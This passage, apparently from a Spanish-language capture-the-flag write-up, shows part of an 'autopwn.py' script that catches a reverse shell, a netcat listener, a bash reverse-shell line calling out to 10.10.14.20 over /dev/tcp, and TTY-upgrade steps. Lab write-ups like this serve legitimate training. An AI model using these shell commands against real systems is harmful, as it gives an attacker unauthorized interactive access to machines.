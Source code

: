 ```python

    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    p1 = log.progress("Acceso")
    p1.status("Ganando acceso al sistema")

    shell = listen(lport, timeout=5).wait_for_connection()

    if shell.sock is None:
        p1.failure("No ha sido posible ganar acceso al sistema")
        sys.exit(1)
    else:
        shell.interactive()
```

Lo ejecutamos

```bash
python autopwn.py
whoami
#Output
www-data

ifconfig
```

El tito prefiere entablarse una shell normal. Se pone en escucha con 
```bash
 nc -nlvp 443 
```
 y lanza en la shell creado por el script

```bash
 bash -i >& /dev/tcp/10.10.14.20/443 0>&1 
```


### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <numero filas> columns <numero columnas>
```
